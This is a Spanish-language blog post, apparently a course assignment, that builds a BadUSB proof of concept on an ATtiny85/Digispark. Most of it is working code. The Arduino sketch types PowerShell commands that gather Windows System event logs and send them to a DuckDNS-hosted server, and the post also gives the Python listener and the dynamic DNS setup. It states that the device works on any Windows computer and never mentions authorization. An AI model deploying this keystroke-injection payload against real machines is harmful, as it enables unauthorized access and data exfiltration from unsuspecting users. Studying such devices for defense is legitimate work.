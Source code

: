```yaml
---
author: Inge Gatovsky
pubDatetime: 2024-09-25T03:54:46.649Z
title: Pruena de Concepto Attiny85
slug: tarea-998-prueba-de-concepto
featured: true
draft: false
tags:
  - sistemas-programables
  - attiny85
  - arduino
  - python
  - windows
  - ubuntu
description: Prueba de Concepto Attiny85.
---
```


# Tarea 998: Prueba de Concepto Attiny85

## Objetivo

El objetivo de esta prueba de concepto es obtener los logs de un sistema Windows y enviarlos a un servidor remoto.

## Desarrollo

### Configuración del servidor remoto

1. El servidor remoto es una maquina virtual con el sistema `Ubuntu Server 24.04.1 LTS`, la cual usa una connexión de tipo Bridge con IP Dinámica, por tanto se debe configurar un servicio de DNS dinámico para poder acceder a la maquina virtual desde cualquier lugar.

    ![Ubuntu Server](../../assets/server.png)

2. Se Creó un dominio en [DuckDNS](https://www.duckdns.org/) para poder acceder al servidor remoto desde cualquier lugar.

3. Para configurar el servicio de DNS dinámico se debe instalar el paquete `ddclient`, y configurar el archivo `/etc/ddclient.conf` con los siguientes datos:

    ```bash
        # Configuration file for ddclient generated by debconf
        

        protocol=duckdns \
        use=if, if='tu tarjeta de red' \
        server=www.duckdns.org \
        login='tu usuario' \
        password='tu token' \
        tu_dominio.duckdns.org
    ```

    * `tu tarjeta de red`: Es la tarjeta de red que se esta utilizando, se puede obtener con el comando `ifconfig`.
    * si deseas activar el servicio de DNS dinámico, se debe ejecutar el siguiente comando:

    ```bash
        sudo systemctl enable ddclient
        sudo systemctl start ddclient
    ```

    * Instalar el paquete `ddclient`:

    ```bash
        sudo apt install -y ddclient
    ```

4. Se activó el firewall de Ubuntu y se abrieron los puertos 22 y 8080.

    ```bash
        sudo ufw enable
        sudo ufw allow 22
        sudo ufw allow 8080
    ```

### Configuración de servidor Python

1. Se creó un servidor básico en Python que escucha en el puerto 8080 y recibe los logs de un cliente.

    ```python
    import os
    from http.server import BaseHTTPRequestHandler, HTTPServer

    class LogHandler(BaseHTTPRequestHandler):
        def do_POST(self):
            if self.path == "/logs":
                content_length = int(self.headers['Content-Length'])
                post_data = self.rfile.read(content_length).decode('utf-8')

                log_file_path = os.path.expanduser("~/logs/windows_logs.txt")

                os.makedirs(os.path.dirname(log_file_path), exist_ok=True)

                with open(log_file_path, "a") as log_file:
                    print(post_data)
                    log_file.write(post_data + "\n")

                self.send_response(200)
                self.end_headers()
            else:
                # 405 Method not allowed
                self.send_response(405)
                self.end_headers()

    def run(server_class=HTTPServer, handler_class=LogHandler):
        server_address = ('', 8080)  # Escuchar en el puerto 8080
        httpd = server_class(server_address, handler_class)
        print("Gatovsky Server Listening at 8080")
        httpd.serve_forever()

    if __name__ == "__main__":
        run()
    ```

    * Para ejecutar el servidor se debe ejecutar el siguiente comando:

        ```bash
            python3 server.py
        ```

    * El servidor escucha en el puerto 8080 y guarda los logs en el archivo `~/logs/windows_logs.txt`. Debes crear la carpeta `logs` si no existe.

    Nota: esto se hizo en el `Home` del usuario.

### Configuración de Arduino IDE 2.x

1. En Archivos > Preferencias > URLs de placas adicionales pega el siguiente enlace: `https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json` esto permitirá instalar las placas de Digistump.

    ![Digistump](../../assets/IMG_8763.jpg)

2. En Herramientas > Placa > Gestor de tarjetas busca `Digistump AVR Boards` e instala la versión 1.6.7.
    ![Digistump](../../assets/IMG_8761.jpg)

3. En Herramientas > Placa selecciona `Digispark (Default - 16.5mhz)`.
    ![Digispark](../../assets/IMG_8762.jpg)

### Configuración del Attiny85

1. Una vez configurado el IDE Usa el siguiente código en un nuevo Sketch.

    ```c
    #include <DigiKeyboard.h>

    void openRun() {
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);  // Windows + R
    delay(500);
    }

    void runCommand(const char *command) {
    DigiKeyboard.println(command);
    delay(500);
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    delay(1000); 
    }

    void typeCommand() {
        DigiKeyboard.println("$logs = Get-EventLog -LogName System -Newest 5 | Out-String");
        //DigiKeyboard.sendKeyStroke(KEY_ENTER);
        DigiKeyboard.println("$utf8logs = [System.Text.Encoding]::UTF8.GetBytes($logs)");
        //DigiKeyboard.sendKeyStroke(KEY_ENTER);
        DigiKeyboard.println("Invoke-RestMethod -Uri http://dominio.duckdns.org:8080/logs -Method POST -Body $utf8logs");
        DigiKeyboard.sendKeyStroke(KEY_ENTER);
    }

    void setup() {}

    void loop() {
    DigiKeyboard.update();

    openRun();
    runCommand("powershell");

    delay(1000);

    typeCommand();

    // Espera 5 segundos antes de repetir (opcional)
    delay(5000);
    }
    ```

    * Se debe reemplazar `my_dominio.duckdns.org` por el dominio que se creó en DuckDNS.

2. Presiona el boton de `Subir` y espera el mensaje del IDE para insertar el Attiny85.
    ![Subir](../../assets/IMG_8758.jpg)

3. Conecta el Attiny85 a un puerto USB y espera a que suba el código.
    ![Attiny85](../../assets/IMG_8759.jpg)

4. Ahora puedes usar el Attiny85 en cualquier computadora con Windows y obtendrás los logs en el servidor remoto.

![Server Run](../../assets/IMG_8760.jpg)

![Server Logs](../../assets/logs.png)
